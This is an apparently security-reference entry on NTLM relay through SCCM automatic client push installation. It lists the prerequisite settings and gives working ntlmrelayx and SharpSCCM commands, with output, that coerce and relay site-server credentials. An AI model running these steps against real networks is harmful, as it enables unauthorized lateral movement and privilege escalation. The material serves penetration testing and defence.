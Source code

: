 # ELEVATE-2

## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- Lateral Movement
- Privilege Escalation

## Requirements
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Connectivity from the relay server to SMB (TCP/445) on the relay target
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictNTLMInDomain` = `0` or not present, or = `X` and `DCAllowedNTLMServers` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0` or not present, or = `1` and `ClientAllowedNTLMServers` contains attacker relay server
- Relay target settings:
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictNTLMInDomain` = `0` or not present, or = `X` and `DCAllowedNTLMServers` contains attacker relay server
    - `RestrictReceivingNTLMTraffic` = `0` or not present, or = `1` and `X` contains attacker relay server

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as Domain Admins for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its machine account. If SMB is used, TAKEOVER-1 and TAKEOVER-2 may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server.

## Defensive IDs


## Examples

It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

```
# impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
Impacket v0.11.0 - Copyright 2023 Fortra

[2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
[2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
[2024-02-26 15:49:50] [*] Running in relay mode to single host
[2024-02-26 15:49:50] [*] Setting up SMB Server
[2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
[2024-02-26 15:49:50] [*] Setting up WCF Server
[2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

[2024-02-26 15:49:50] [*] Servers started, waiting for connections
```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

```
SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

[+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
[+] Reusable Base64-encoded certificate:

    308209D2...020207D0

[+] Discovering local properties for client registration request
[+] Modifying client registration request properties:
      FQDN: <NTLMRELAYX_LISTENER_IP>
      NetBIOS name: <NTLMRELAYX_LISTENER_IP>
      Site code: <SITECODE>
[+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
[+] Received unique SMS client GUID for new device:

    GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

[+] Discovering local properties for DDR inventory report
[+] Modifying DDR and inventory report properties
[+] Discovered PlatformID: Microsoft Windows NT Server 10.0
[+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
[+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
[+] Completed execution in 00:00:16.1952455
```

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
```
[2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
[2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
```

Note: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having Full Administrator privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With Full Administrator access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the administration console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, Coercing NTLM Authentication from SCCM Servers, https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a
- Chris Thompson, SharpSCCM, https://github.com/Mayyhem/SharpSCCM